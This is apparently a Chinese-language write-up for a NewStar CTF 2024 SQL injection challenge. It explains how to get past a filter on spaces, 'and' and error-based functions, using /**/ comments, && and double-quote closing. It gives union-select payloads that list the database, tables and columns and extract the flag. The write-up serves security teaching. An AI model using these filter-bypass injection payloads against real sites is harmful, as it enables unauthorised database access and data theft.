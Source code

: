 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```


# 谢谢皮蛋 plus

同样还是联合注入，意在考察空格和 `and` 的绕过，为了避免直接使用报错注入得到 flag，将报错注入 ban 了

```php
preg_match_all("/ |extractvalue|updataxml|and/i",$id)
```

值得注意的一个点是，这题是双引号闭合，如果没有细心的检查会误以为是单引号闭合

![注意引号的闭合种类](/assets/images/wp/2024/week2/pidan-plus_1.png)

双引号中带有单引号也可以执行成功，属于 MySQL 的一种特性，可以自行尝试一下

![双引号中带有单引号也可以执行成功](/assets/images/wp/2024/week2/pidan-plus_2.png)

`and` 使用 `&&` 替换，空格使用 `/**/` 替换，其他就是一样的操作了

查询当前数据库

```sql
-1"/**/union/**/select/**/1,database()#
```

查询所有表名

```sql
-1"/**/union/**/select/**/1,group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema/**/=/**/database()#
```

查询所有列名

```sql
-1"/**/union/**/select/**/1,group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_name/**/=/**/'Fl4g'/**/&&/**/table_schema/**/=/**/database()#
```

得到flag

```sql
-1"/**/union/**/select/**/group_concat(des),group_concat(value)/**/from/**/Fl4g#
```
